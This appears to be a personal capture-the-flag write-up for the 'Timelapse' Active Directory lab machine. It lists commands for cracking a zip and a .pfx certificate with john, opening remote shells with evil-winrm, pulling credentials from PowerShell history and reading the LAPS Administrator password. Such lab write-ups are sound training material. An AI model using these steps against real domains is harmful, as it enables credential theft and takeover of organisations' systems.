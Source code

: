 # Timelapse

### Reconnaissance

Nmap scans run very slowly on the target

Appears to be an Active Directory DC; kerberos, ldap, ldaps, dns, etc. running on the target

**Port 445 SMB**

Shares are visible

![Shares](./pictures/smb-shares.png)

Inside the share there are 2 directories, Dev and HelpDesk

Dev contains a password protected zip archived (cracked) .pfx file (cracked), and HelpDesk contains documents
on LDAPS and an LDAPS x64 .msi file (hint hint?)

![Files](./pictures/smb-files.png)

### Exploitation

Crack the .zip

`zip2john winrm_backup.zip > zip_hash.txt`
`john -w=rockyou.txt zip_hash.txt`

Crack the .pfx

`pfx2john legacyy_dev_auth.pfx | john -w=rockyou.txt /dev/stdin`

Extract to a .pem file

`openssl pkcs12 -in legacyy_dev_auth.pfx -nodes -out cert.pem`

Use Evil-WinRM to get a user shell with the .pem file

`evil-winrm -i 10.10.11.152 -S -k cert.pem -c cert.pem`

Check services with evil-winrm

![Services](./pictures/services.png)

Manual enumeration leads us to the PowerShell history for legacyy

`C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

Which contains credentials for the svc_deploy user

![svc_deploy](./pictures/svc_deploy-creds.png)

Use Evil-WinRM to get a shell as svc_deploy

`evil-winrm -i 10.10.11.152 -S -u svc_deploy -p password`

svc_deploy is a member of the group LAPS_Reader, which means we can read the Administrator password

![svc_deploy groups](./pictures/svc_deploy-groups.png)

`PS C:\> Get-AdComputer DC01 -Property 'ms-mcs-admpwd'`

Use the password to get a shell with Evil-WinRM as the Administrator

### Lessons Learned

- Check your nmap scans are behaving normally! -A is weird, use -sC -sV

- .pfx files can be cracked with john, then extracted [to .pem](https://www.xolphin.com/support/Certificate_conversions/Convert_pfx_file_to_pem_file) or [to .key](https://support.citrix.com/article/CTX229158/how-to-extract-the-private-and-public-key-from-pfx-file) files
exit

- When using `ls` in `smbclient` add \ after the directory name to list the contents e.g. `smb: \> ls Dev\`

- Evil-WinRM can be used with pem files

- Read LAPS Administrator passwords with `Get-ADComputer <PC name> -Property 'ms-mcs-admpwd'`
